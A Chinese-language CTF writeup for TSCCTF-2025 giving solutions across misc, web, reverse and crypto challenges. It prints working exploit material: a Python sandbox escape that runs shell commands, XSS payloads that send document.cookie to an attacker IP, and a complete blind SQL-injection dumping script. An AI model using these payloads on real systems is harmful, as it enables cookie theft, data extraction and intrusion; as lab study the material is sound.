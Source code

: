 ```yaml
---
layout: post
title: "[CTF] TSCCTF-2025 Writeup"
date: 2025-01-18 +0800
categories: CTF
hidden: false
---
```


## MISC
### Subdomain Hijacking
透過Generate Your Subdomain
![](/images/2025/01/HyRfL3fPyx.png)
輸入`test`生成
![](/images/2025/01/S1BfU2MDye.png)

輸入`Target`，獲得flag，不是很懂
![](/images/2025/01/Bk4nShGDJx.png)

![](/images/2025/01/BJocSnzwye.png)

### A_BIG_BUG
使用匿名登入SMB上傳webshell，可以從網頁路徑 /uploads 執行

`└─$ smbclient //172.31.0.2/uploads -p 30043 -U ''`

![](/images/2025/01/HknSr3Mw1l.png)

尋找Flag

`find / -name "*flag*" 2>/dev/null`
![](/images/2025/01/Bk0JH2Gw1e.png)

`cat /tmp/flag.txt`
![](/images/2025/01/r1mJr2GvJl.png)

### calc

```python
import re
def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c

    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)

    return ret

def enc(s):
    # 99 = None
    letter_to_index = {
        'a': 76,
        'b': 99,
        'c': 8,
        'd': 99,
        'e': 7,
        'f': 37,
        'g': 99,
        'h': 99,
        'i': 99,
        'j': 99,
        'k': 99,
        'l': 208,
        'm': 103,
        'n': 99,
        'o': 99,
        'p': 99,
        'q': 99,
        'r': 99,
        's': 0,
        't': 1,
        'u': 99,
        'v': 99,
        'w': 99,
        'x': 99,
        'y': 27,
        'z': 99,
        'space': 14
    }

    # 查找對應字母的索引
    index = letter_to_index.get(s.lower())
    result = "''.__doc__.__getitem__("+str(index)+")"
    return result


system=enc('s')+"+"+enc('y')+"+"+enc('s')+"+"+enc('t')+"+"+enc('e')+"+"+enc('m')
cmd= enc('l')+"+"+enc('s')
cmd2=enc('c')+"+"+enc('a')+"+"+enc('t')+"+"+"' *'"
a="''.__class__.__base__.__subclasses__().pop(155).__init__.__globals__.pop("+system+")("+cmd+")"
print(denormalize(a))

b="''.__class__.__base__.__subclasses__().pop(155).__init__.__globals__.pop("+system+")("+cmd2+")"
print(denormalize(b))
```

![](/images/2025/01/HJ_eNkmD1l.png)


![](/images/2025/01/r11eEk7w1g.png)

### BabyJail

用calc一樣的payload就好了
![](/images/2025/01/SJLMVfXw1g.png)

## Welcome

### Please Join Our Discord!!!

![](/images/2025/01/HJosLTmwkg.png)


## Web

### Ave Mujica
網頁有LFI的漏洞

![](/images/2025/01/Bk1ztJmvke.png)


### Be_IDol
網頁有Backdoor function
![](/images/2025/01/HJjg0Jmw1g.png)

去暴力破解尋找全部檔案
![](/images/2025/01/r1UC6yXvyl.png)

發現有可以使用shell的介面
![](/images/2025/01/rJbWIxmPkl.png)

### book

![](/images/2025/01/HJ-G5-Qvyl.png)

會先把title sanitize再innerHTML，這時就可以把DOM clobbering payload放到title，繞過`typeof config !== "undefined" && config.DEBUG`。

```js
<script>
document.addEventListener("DOMContentLoaded", () => {
    const urlParams = new URLSearchParams(window.location.search);
    const title = atob(urlParams.get("title"));
    const content = atob(urlParams.get("content"));
    document.getElementById("title").innerHTML =
        DOMPurify.sanitize(title);
    if (typeof config !== "undefined" && config.DEBUG) {
        document.getElementById("content").innerHTML = content;
    } else {
        document.getElementById("content").innerHTML =
            DOMPurify.sanitize(content);
    }
});
</script>
```

Ref:https://ithelp.ithome.com.tw/articles/10318413?sc=rss.iron


PAYLOAD title

```html
<form id="config">
    <button id="DEBUG"></button>
</form>
```

PAYLOAD content
P.S HTML5 中指定不由 innerHTML 插入的 ``<script>`標籤 [mozilla-innerHTML](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

```html=
<img src=x onerror="location='http://172.30.0.163/?'+document.cookie">
```

![](/images/2025/01/Sk-Bn-Xv1e.png)



### E4sy SQLi

這個端點`/customize/<product_id>`，有Boolean SQLI
![](/images/2025/01/HkK2MzXvJg.png)

Table `discount_codes` 裡面有 FLAG

```python
import requests


base_url = "http://3a9f7e1b7b454c7081cf467d108a40720.e4sy-sqli.tscctf.com:8999/customize/3"
cookie = {"session": ".eJwljMsKgzAQRX-lzFrKxBpjXPU_Ggl5TFqpD3DMSvz3Rro653K59wCbJscfYuhfB9z2AuAcAjFDBSarVnmTpWilyW0tsHitk8kpoYDhHCoIvCW7r19aoIckUmicDF4p1DF4bKT38lGjJ905wiZ2qKUS5XtbJyqLzLSVdMGOEXrx98XNV-s4Pt-zG6d7WGc4f59BNmM.Z4gVfg.Cpvr55StL2Y-apSZ4KcBRU5Y7ic"}


def is_condition_true(payload):
    url = f"{base_url}{payload}"
    response = requests.get(url, cookies=cookie, allow_redirects=False)  
    return response.status_code == 200  


def get_database_name():
    database_name = ""
    print("[+] Database:", end=" ")
    for position in range(1, 50):  
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
            payload = f" AND SUBSTR((SELECT DATABASE()), {position}, 1) = '{char}' -- "
            if is_condition_true(payload):
                database_name += char
                print(char, end="", flush=True)
                break
        else:
            break
    print()
    return database_name



def get_tables(database_name):
    tables = []
    print("[+] Table:")
    for table_index in range(0, 50):  
        table_name = ""
        print(f"[+] Table {table_index}: ", end="", flush=True)
        for position in range(1, 50):  
            for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
                payload = (
                    f" AND SUBSTR((SELECT table_name FROM information_schema.tables "
                    f"WHERE table_schema='{database_name}' LIMIT {table_index}, 1), {position}, 1) = '{char}' -- "
                )
                if is_condition_true(payload):
                    table_name += char
                    print(char, end="", flush=True)
                    break
            else:
                break
        if table_name:
            tables.append(table_name)
            print()  
        else:
            break
    return tables


def get_columns(table_name):
    columns = []
    print(f"[+] Table {table_name} of Columns:")
    for column_index in range(0, 50):
        column_name = ""
        print(f"[+] Column {column_index}: ", end="", flush=True)
        for position in range(1, 50):
            for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
                payload = (
                    f" AND SUBSTR((SELECT column_name FROM information_schema.columns "
                    f"WHERE table_name='{table_name}' LIMIT {column_index}, 1), {position}, 1) = '{char}' --"
                )
                if is_condition_true(payload):
                    column_name += char
                    print(char, end="", flush=True)
                    break
            else:
                break
        if column_name:
            columns.append(column_name)
            print()  
        else:
            break
    return columns




def get_column_data(table_name, column_name):
    data = []
    print(f"[+] Table {table_name} of Columns {column_name} of Data:")
    for row_index in range(0, 50):
        row_data = ""
        print(f"[+] Data {row_index}: ", end="", flush=True)
        for position in range(1, 500):
            for char in range(33, 127):
                payload = (
                    f" AND SUBSTR((SELECT {column_name} FROM {table_name} "
                    f"LIMIT {row_index}, 1), {position}, 1) = BINARY(CHAR({char})) --"
                )
                if is_condition_true(payload):
                    row_data += chr(char)
                    print(chr(char), end="", flush=True)
                    break
            else:
                break
        if row_data:
            data.append(row_data)
            print()
        else:
            break
    return data

# Database Name
# database_name = get_database_name()
# print(f"[+] Database is: {database_name}")

# Table Name
# tables = get_tables('laptop_shop')
# print(f"[+] Database {database_name} Table: {tables}")

# Column Name
# columns = get_columns("discount_codes")
# print(f"[+] Table discount_codes of Columns: {columns}")

# Data
code_data = get_column_data("discount_codes", "code")
print(f"[+] Table discount_codes of Column code of Data: {code_data}")
```



### Beautiful World
`main.py`主要檢查code如下

```python
# Check if the content is harmful content or not with BeautifulSoup.
soup = BeautifulSoup(content, "html.parser")
if sum(ele.name != 's' for ele in soup.find_all()):
    return "no eval tag."
if sum(ele.attrs != {} for ele in soup.find_all()):
    return "no eval attrs."
```


用不完整的html就可以bypass

```html
<img src="' onerror="/onerror="location='http://172.30.0.163/?'+document.cookie"
```

![](/images/2025/01/S16lazmDJx.png)

![](/images/2025/01/SkGnnf7wJl.png)


## Reverse

### What_Happened
![](/images/2025/01/SyklBSmvye.png)

![](/images/2025/01/rJq0NBQD1g.png)


```python
encrypted_flag = [
    0xFE, 0xF9, 0xE9, 0xD1, 0xE3, 0xF5, 0xFE, 0xC2, 0xC3, 0xC4, 0xC1,
    0xF5, 0xD3, 0xC5, 0xDF, 0xF5, 0xEC, 0xC3, 0xD2, 0xF5, 0x98, 0xC5,
    0xC7, 0xCF, 0xF5, 0x99, 0xD8, 0xD8, 0xC5, 0xD8, 0xD7
]

key = 0xAA

decrypted_flag = ''.join(chr(byte ^ key) for byte in encrypted_flag)

print(decrypted_flag) #TSC{I_Think_you_Fix_2ome_3rror}
```

### Meoware

JNZ patch成 JZ
![](/images/2025/01/Skg0AxEPJe.png)

![](/images/2025/01/BJgk1-4DJe.png)




## Pwn

### gamble_bad_bad
![](/images/2025/01/ryB0BHXvJg.png)



## Crypto

### Very Simple Login
![](/images/2025/01/BkkuIS7vyx.png)


### Classic

Script From AI

```python
import string
from itertools import product

def extended_gcd(a, b):
    """計算 a 的模反元素"""
    if a == 0:
        return b, 0, 1
    gcd, x1, y1 = extended_gcd(b % a, a)
    x = y1 - (b // a) * x1
    y = x1
    return gcd, x, y

def mod_inverse(a, m):
    """計算 a 在模 m 下的乘法反元素"""
    gcd, x, _ = extended_gcd(a, m)
    if gcd != 1:
        raise ValueError("模反元素不存在")
    return x % m

def decrypt(enc, A, B, charset):
    """使用給定的 A 和 B 解密文字"""
    m = len(charset)
    A_inv = mod_inverse(A, m)

    dec = ""
    for c in enc:
        y = charset.find(c)
        if y == -1:  # 如果字符不在字集中
            dec += c
            continue
        x = (A_inv * (y - B)) % m
        dec += charset[x]
    return dec

def is_valid_flag(text):
    """檢查解密結果是否可能是有效的 flag"""
    # 檢查是否包含合理的字符
    valid_chars = set(string.printable)
    return all(c in valid_chars for c in text) and "TSC{" in text

def crack_affine_optimized(enc, max_a=1000, max_b=1000):
    """優化版的破解函數"""
    charset = string.digits + string.ascii_letters + string.punctuation
    m = len(charset)

    for A in range(1, max_a):
        if A >= m:
            continue
        try:
            mod_inverse(A, m)
        except ValueError:
            continue

        for B in range(max_b):
            if B >= m:
                continue

            try:
                decrypted = decrypt(enc, A, B, charset)
                if is_valid_flag(decrypted):
                    return decrypted, A, B
            except:
                continue

    return None, None, None

# 主要解密過程
enc = "o`15~UN;;U~;F~U0OkW;FNW;F]WNlUGV\""
print("開始破解...")

decrypted, A, B = crack_affine_optimized(enc)

if decrypted:
    print(f"成功破解！")
    print(f"解密後的文字: {decrypted}")
    print(f"使用的參數: A = {A}, B = {B}")

```

## End

17/509
![](/images/2025/01/Z8cgi3BHHB.png)
